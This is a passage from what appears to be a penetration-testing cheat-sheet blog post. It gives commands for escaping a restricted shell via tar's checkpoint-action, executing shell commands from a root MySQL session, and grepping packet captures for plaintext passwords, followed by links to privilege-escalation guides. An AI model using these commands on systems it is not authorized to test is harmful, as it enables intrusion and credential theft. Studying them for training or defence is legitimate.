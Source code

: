 ``` {#62b2 .graf .graf--pre .graf-after--p style="background: rgba(0, 0, 0, 0.047); color: #333333; font-size: 14px; margin-top: 43px; overflow: auto; padding: 20px;"}
tar cf /dev/null testfile --checkpoint=1 --checkpoint-action=exec=/bin/sh 
                  --> get a proper shell from a restricted shell
```

</div>

<div>

``` {#62b2 .graf .graf--pre .graf-after--p style="background: rgba(0, 0, 0, 0.047); font-size: 14px; margin-top: 43px; overflow: auto; padding: 20px;"}
mysql -u root -p               // logging as a root in mysql 

\! ls -l                       //Execute Commands 
```

</div>

<div>

``` {#62b2 .graf .graf--pre .graf-after--p style="background: rgba(0, 0, 0, 0.047); font-size: 14px; margin-top: 43px; overflow: auto; padding: 20px;"}
Finding Passwords from a PCAP file using TCPDUMP:

tcpdump -nt -r capture.pcap -A 2>/dev/null | grep -P 'pwd=' 
```

</div>

<div>

[[\
]{style="font-size: x-large;"}]{face="verdana, sans-serif"}

</div>

<div>

::: {.MsoNormal style="line-height: 150%; text-align: justify;"}
[If I missed something, feel free to command below and If you are
looking for the Linux Privilege Escalation Techniques here you go
\--\> ]{face="verdana, sans-serif"}[[Linux Privilege Escalation
Techniques](https://www.hackingdream.net/2020/03/linux-privilege-escalation-techniques.html){target="_blank"} ]{face="verdana, sans-serif"}

[here is ]{face="verdana, sans-serif"}[Windows Privilege Escalation
command and
Techniques](https://www.hackingdream.net/2020/03/windows-privilege-escalation-cheatsheet-for-oscp.html){style="font-family: verdana, sans-serif;"
target="_blank"}
:::

</div>

\
\
:::::::::::::::::

::: {style="clear: both;"}
:::
:::::::::::::::::::
